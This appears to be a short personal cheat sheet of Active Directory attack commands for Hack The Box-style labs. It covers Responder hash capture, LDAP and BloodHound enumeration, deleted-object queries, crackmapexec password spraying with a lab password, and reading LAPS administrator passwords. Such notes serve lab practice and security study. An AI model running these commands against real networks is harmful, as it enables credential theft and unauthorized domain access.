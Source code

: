 #### Notes for active directory:

If a user belongs to the Remote Management USers group we can gain access to the machine through evil-winrm.

##### Command for Responder: 
```
responder -I tun0
```

###### Check if user belongs to the group with windapsearch:
```
./windapsearch.py -U --full --dc-ip 10.10.10.182
```

##### tightvnc write up for decryption:
```
https://github.com/frizb/PasswordDecrypts
```
##### The Get-ADUser cmdlet can be used to list the properties of a user:
```
Get-ADUser -identity s.smith -properties *
```
#### Shows groups user belongs to:
```
whoami /all
```
###### Get Active Directory Objects:
```
Get-ADObject -ldapfilter "(&(isDeleted=TRUE))" -IncludeDeletedObjects
```
##### Include object class only:
```
Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -
IncludeDeletedObjects
```

##### Display filter to select a specific account only:
```
Get-ADObject -ldapfilter "(&(objectclass=user)(DisplayName=TempAdmin)
(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```
##### Used to spray passwords for users:
```
crackmapexec smb 10.10.10.248 -u users -p NewIntelligenceCorpUser9876 --continue-on-success
```

##### Used to collect domain information for bloodhound: 
```
bloodhound-python -c ALL -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -d intelligence.htb -dc intelligence.htb -ns 10.10.10.248
```
##### Get LAPS administrtor Password if you have permissions:
```
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
